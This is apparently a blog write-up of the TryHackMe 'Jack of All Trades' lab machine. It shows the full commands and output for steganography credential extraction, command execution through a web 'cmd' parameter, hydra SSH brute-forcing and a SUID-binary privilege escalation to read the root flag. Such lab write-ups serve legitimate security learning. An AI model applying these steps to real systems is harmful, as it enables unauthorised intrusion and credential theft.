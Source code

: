 ```yaml
---
title : "Jack of All Trades - Write Up"
date : 2021-07-04T14:31:31+02:00
author : "Lanfran02"
cover : "cover.jpeg"
useRelativeCover : true
description : "TryHackMe's easy level machine."
tags : ["strings","stego","RCE","steghide","TryHackMe"]
---
```


| Link | Level | Creator |
|------|-------|---------|
| [Here](https://tryhackme.com/room/jackofalltrades)  | Easy  |  [MuirlandOracle](https://tryhackme.com/p/MuirlandOracle)  |

## Reconn

As usual, using `nmap` we get the open ports of the machine. 

But, we get something quite unusual.

```bash
╰─ lanfran@parrot ❯ map 10.10.22.246                                                                                               ─╯
[sudo] password for lanfran: 
Starting Nmap 7.91 ( https://nmap.org ) at 2021-07-04 14:32 CEST
Nmap scan report for 10.10.22.246
Host is up (0.058s latency).
Not shown: 998 closed ports
PORT   STATE SERVICE VERSION
22/tcp open  http    Apache httpd 2.4.10 ((Debian))
|_http-server-header: Apache/2.4.10 (Debian)
|_http-title: Jack-of-all-trades!
|_ssh-hostkey: ERROR: Script execution failed (use -d to debug)
80/tcp open  ssh     OpenSSH 6.7p1 Debian 5 (protocol 2.0)
| ssh-hostkey: 
|   1024 13:b7:f0:a1:14:e2:d3:25:40:ff:4b:94:60:c5:00:3d (DSA)
|   2048 91:0c:d6:43:d9:40:c3:88:b1:be:35:0b:bc:b9:90:88 (RSA)
|   256 a3:fb:09:fb:50:80:71:8f:93:1f:8d:43:97:1e:dc:ab (ECDSA)
|_  256 65:21:e7:4e:7c:5a:e7:bc:c6:ff:68:ca:f1:cb:75:e3 (ED25519)
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 60.85 seconds
```

We get the port switched!
The `SSH port it's the 80`.
And the `web port it's the 22`.

It's a good way to minf\*ck some clueless people!

Let's scan the web server with `gobuster`

```bash
╰─ lanfran@parrot ❯ curl http://10.10.22.246:22/                                                                                                                              ─╯
<html>
	<head>
		<title>Jack-of-all-trades!</title>
		<link href="assets/style.css" rel=stylesheet type=text/css>
	</head>
	<body>
		<img id="header" src="assets/header.jpg" width=100%>
		<h1>Welcome to Jack-of-all-trades!</h1>
		<main>
			<p>My name is Jack. I'm a toymaker by trade but I can do a little of anything -- hence the name!<br>I specialise in making children's toys (no relation to the big man in the red suit - promise!) but anything you want, feel free to get in contact and I'll see if I can help you out.</p>
			<p>My employment history includes 20 years as a penguin hunter, 5 years as a police officer and 8 months as a chef, but that's all behind me. I'm invested in other pursuits now!</p>
			<p>Please bear with me; I'm old, and at times I can be very forgetful. If you employ me you might find random notes lying around as reminders, but don't worry, I <em>always</em> clear up after myself.</p>
			<p>I love dinosaurs. I have a <em>huge</em> collection of models. Like this one:</p>
			<img src="assets/stego.jpg">
			<p>I make a lot of models myself, but I also do toys, like this one:</p>
			<img src="assets/jackinthebox.jpg">
			<!--Note to self - If I ever get locked out I can get back in at /recovery.php! -->
			<!--  UmVtZW1iZX[REDACTED]Nzd29yZDogdT9XdEtTcmFxCg== -->
			<p>I hope you choose to employ me. I love making new friends!</p>
			<p>Hope to see you soon!</p>
			<p id="signature">Jack</p>
		</main>
	</body>
</html>
```
We have some nice info here:
- We get an encoded text here.
- We found a new endpoint `recovery.php`.

1. We need to decode the text, so we are going to use [cyberchef](https://gchq.github.io/CyberChef/) !
	To decode it we need to use `Base64`

	And we get a message:
	`Remember to wish Johny Graves well with his crypto jobhunting! His encoding systems are amazing! Also gotta remember your password: [REDACTED]`

	Good! We have a password. Let's save it for later.


2. Using curl to navigate, we get also a encoded text hidden in the source code
```bash
╰─ lanfran@parrot ❯ curl http://10.10.22.246:22/recovery.php                                                                                                                  ─╯
		
<!DOCTYPE html>
<html>
	<head>
		<title>Recovery Page</title>
		<style>
			body{
				text-align: center;
			}
		</style>
	</head>
	<body>
		<h1>Hello Jack! Did you forget your machine password again?..</h1>	
		<form action="/recovery.php" method="POST">
			<label>Username:</label><br>
			<input name="user" type="text"><br>
			<label>Password:</label><br>
			<input name="pass" type="password"><br>
			<input type="submit" value="Submit">
		</form>
		<!-- GQ2TOMRXME3TE[REDACTED]TMNRRGY3TGYJSGA3GMNZWGY3TEZJXHE3GGMTGGMZDINZWHE2GGNBUGMZDINQ=  -->
		 
	</body>
</html>
```

Let's use [cyberchef](https://gchq.github.io/CyberChef/) again to decode it!

The decode path is `Base32 -> Hex -> ROT13`.

And we get a message:
`Remember that the credentials to the recovery login are hidden on the homepage! I know how forgetful you are, so here's a hint: bit.ly/2TvYQ2S`

## Foothold - User

Navigating to that link, we get a Wikipedia's Stegosauria page. Maybe the creator it's telling us to use steganography?

Let's download all the pictures of the webpage!

After, running `steghide` with the password of the "1." point, we get a new file:

```bash
╰─ lanfran@parrot ❯ steghide extract -sf header.jpg                                                                                                                                       ─╯
Enter passphrase: u[REDACTED]
the file "cms.creds" does already exist. overwrite ? (y/n) y
wrote extracted data to "cms.creds".

╰─ lanfran@parrot ❯ cat cms.creds                                                                                                                                                         ─╯
Here you go Jack. Good thing you thought ahead!

Username: jackinthebox
Password: [REDACTED]
```
Woohooo! We get the user's password for `recovery.php`!

So let's login now. [If you are getting the error "ERR_UNSAFE_PORT" on tyour browser, you have to enable the port 22. I google a way to fix it, in Brave/Chrome you have to pass the flag "--explicitly-allowed-ports=22"]

Great! We can even exploit the parameter `cmd` to do RCE.

After digging around, we find a file with passwords.

`http://10.10.194.240:22/nnxhweOV/index.php?cmd=cat%20%20/home/jacks_password_list`

Download that file, and let's use it, along with `hydra` to bruteforce the SSH (Remember that's on port 80 :) )

```bash
╰─ lanfran@parrot ❯ hydra -l jack -P pass.txt -s 80 ssh://10.10.22.246                                                                                                                    ─╯
Hydra v9.1 (c) 2020 by van Hauser/THC & David Maciejak - Please do not use in military or secret service organizations, or for illegal purposes (this is non-binding, these *** ignore laws and ethics anyway).

Hydra (https://github.com/vanhauser-thc/thc-hydra) starting at 2021-07-04 15:01:15
[WARNING] Many SSH configurations limit the number of parallel tasks, it is recommended to reduce the tasks: use -t 4
[DATA] max 16 tasks per 1 server, overall 16 tasks, 25 login tries (l:1/p:25), ~2 tries per task
[DATA] attacking ssh://10.10.22.246:80/
[80][ssh] host: 10.10.22.246   login: jack   password: [REDACTED]
1 of 1 target successfully completed, 1 valid password found
[WARNING] Writing restore file because 1 final worker threads did not complete until end.
[ERROR] 1 target did not resolve or could not be connected
[ERROR] 0 target did not complete
Hydra (https://github.com/vanhauser-thc/thc-hydra) finished at 2021-07-04 15:01:19
```
Great, we have now the password, so let's SSH in.

```bash
╰─ lanfran@parrot ❯ ssh jack@10.10.22.246 -p 80                                                                                                                                           ─╯
jack@10.10.22.246's password: 
jack@jack-of-all-trades:~$ ls -la
total 312
drwxr-x--- 3 jack jack   4096 Feb 29  2020 .
drwxr-xr-x 3 root root   4096 Feb 29  2020 ..
lrwxrwxrwx 1 root root      9 Feb 29  2020 .bash_history -> /dev/null
-rw-r--r-- 1 jack jack    220 Feb 29  2020 .bash_logout
-rw-r--r-- 1 jack jack   3515 Feb 29  2020 .bashrc
drwx------ 2 jack jack   4096 Feb 29  2020 .gnupg
-rw-r--r-- 1 jack jack    675 Feb 29  2020 .profile
-rwxr-x--- 1 jack jack 293302 Feb 28  2020 user.jpg
jack@jack-of-all-trades:~$ 
```

Let's `cat` the user's fla... F\*ck, it's an image. Let's download it to our local machine and read/copy the flag from it.
_I recommend using google translate's self image reader to copy the flag :)_

## Root

Scanning the machine, we found the binary `strings` that's owned by root and has the Sticky bit, so we can use it to read the root's flag.

```bash
jack@jack-of-all-trades:~$ ls -la /usr/bin/strings 
-rwsr-x--- 1 root dev 27536 Feb 25  2015 /usr/bin/strings
jack@jack-of-all-trades:~$ /usr/bin/strings /root/root.txt
ToDo:
1.Get new penguin skin rug -- surely they won't miss one or two of those blasted creatures?
2.Make T-Rex model!
3.Meet up with Johny for a pint or two
4.Move the body from the garage, maybe my old buddy Bill from the force can help me hide her?
5.Remember to finish that contract for Lisa.
6.Delete this: securi-tay2020_{[REDACTED]}
```

And we "rooted" the machine!

That's all from my side, hope you find this helpful!